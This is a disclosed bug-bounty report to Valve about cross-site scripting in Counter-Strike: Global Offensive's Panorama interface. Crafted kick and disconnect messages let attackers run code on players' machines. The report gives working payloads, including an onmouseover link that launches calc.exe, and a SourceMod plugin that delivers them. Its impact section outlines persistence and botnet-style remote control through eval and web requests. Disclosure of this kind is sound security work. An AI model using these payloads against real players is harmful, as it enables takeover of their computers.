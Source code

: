 # Panorama UI XSS leads to Remote Code Execution via Kick/Disconnect Message

## Report Details
- **Report ID**: 631956
- **URL**: https://hackerone.com/reports/631956
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-06-29T07:04:48.145Z
- **Disclosed**: 2019-10-08T22:10:26.401Z

## Reporter
- **Username**: shayhelman
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: valve

## Vulnerability Information
## Overview
Counter-Strike: Global Offensive's UI is built of a framework called [Panorama](https://developer.valvesoftware.com/wiki/Dota_2_Workshop_Tools/Panorama) which is heavily influenced by modern HTML/CSS with JS capabilities. Because of these properties, the UI becomes easily vulnerable to different types of code injection, most notably XSS.

Previously, it was discovered that a certain message-type sent through the lobby chat allowed anyone to send raw HTML strings that would then be parsed by the Panorama framework as valid HTML. The reason this XSS was possible was because of a certain Panorama tag that was left enabled.

In order to see how these Panorama files are constructed, you must extract them from the CS:GO files. By unzipping the file under `steamapps\common\Counter-Strike Global Offensive\csgo\panorama\code.pbin`, a plethora of UI files are revealed. In these files we can see how this lobby XSS was possible by looking in the file named `panorama\layout\chat.xml` on line `18` we can see 
```
<Label html="true" text="&lt;span class='chat-entry__name'&gt;{s:player_name}&lt;/span&gt; {s:msg}" acceptsinput="true" />
```

By having `html="true"` in a Panorama tag, any input is parsed as raw HTML. This is what lead to the discovery of this exploit. We grepped through all the Panorama layout files looking for any that contained `html="true"` and within a few seconds we found a particular file with the name `panorama\layout\popups\popup_generic.xml`. We knew that the disconnect message was utilizing this exact file which is when we started to test.

Our first payload was testing if an image could load via a custom disconnect message. So we tried a simple payload `disconnect "<img src='https://i.imgur.com/IbJKM0M.jpg'>"`, and after running it twice (for caching purposes), the cat appeared to our surprise. {F518974}

Now that we knew disconnect popups were exploitable, we tried to see if this could be done remotely through the kick function. We tested first on local servers with the `kickid` command but had no luck. We then setup a dedicated server with SourceMod and attemped to kick with `sm_kick`. This worked at first but it had a character limit which did not allow much room for meaningful payloads. After reading through SourceMod documentation, we found a function called ` KickClient()` which did not have a character limit. After testing with some common payloads, we concluded that `<a onmouseover='javascript:CODE'></a>` is the best method with the least amount of user interaction to trigger code execution since the Panorama HTML parser is very limited in the amount of working tags and event listeners which is highlighted [here](https://developer.valvesoftware.com/wiki/Dota_2_Workshop_Tools/Panorama#.JS_.28Javascript.29).

## Steps to reproduce

* Setup a [dedicated CS:GO server](https://developer.valvesoftware.com/wiki/Counter-Strike:_Global_Offensive_Dedicated_Servers)
* Install [SourceMod](https://wiki.alliedmods.net/Installing_sourcemod) and [Metamod](https://www.sourcemm.net/)
* Download the attached SourceMod plugin and place it under `\addons\sourcemod\plugins\`: F518946
* Start up CS:GO and connect to the server
* Run this string in your client's console:
```
sm_testkick <a onmouseover="javascript:SteamOverlayAPI.OpenExternalBrowserURL('file://C:/Windows/System32/calc.exe')">The remote host stopped receiving communications and closed the connection</a>
```

* Mouse over the text `The remote host stopped receiving communications and closed the connection.`

## PoC

{F518945}
Triggered with the command:
```
sm_testkick <a onmouseover="javascript:SteamOverlayAPI.OpenExternalBrowserURL('file://C:/Windows/System32/calc.exe')">The remote host stopped receiving communications and closed the connection</a>
```

### SourceMod Kick Plugin Source F518946

```cpp
#include <sourcemod>

#pragma semicolon 1
#pragma newdecls required

public void OnPluginStart()
{
    RegConsoleCmd("sm_testkick", Cmd_Kick);
}

public Action Cmd_Kick(int client, int args)
{
    if (args <= 0) {
        PrintToChat(client, "No arguments provided - Usage: !testkick <Kick Message>");
        return Plugin_Handled;
    }

    char full[5120];
    GetCmdArgString(full, sizeof(full));

    for (int i = 0; i < 5; i++) {
        KickClient(client, full);
    }

    return Plugin_Handled;
}
```

## Impact

An attacker could achieve full system access to the victims computer. A dummy server can be setup with an autokick message containing the payload. The victim would just need to join the attackers server and they would become infected. Moreover, an attacker could trick a server owner into installing a malicious SourceMod plugin that would be able to deliver the malicious payload to anyone on the server.

Similar to #470520, the exploit can be triggered via browser by connecting the victim to an attacker controlled server.

This exploit could also be combined with any Panorama function present [here](https://developer.valvesoftware.com/wiki/CSGO_Panorama_API) in order to further mess with the game's functionality (such as starting and accepting a new match or displaying a custom popup message). The attacker virtually has full control over all UI features.

Even though the payload is only triggered via the `mouseover` event, because the way the message appears in the center of the victim's screen and the ability to fill the center of the screen with exploitable text, user interaction is negligible.

It is also possible to persist the Javascript code execution by hoisting a function to the scheduler. Eg. `$.Schedule(1, function)`. Furthermore, it is possible to set up a persistent remote connection to the victim's game instance by utilizing `eval()` and `$.AsyncWebRequest()` which would allow the attacker to manage multiple victims in some sort of botnet.

Yours respectfully,
Shay @shayhelman and Felix @dukebruno123

## Attachments
- cIvlT8vHqy.gif
- testkick.smx
- cat.png
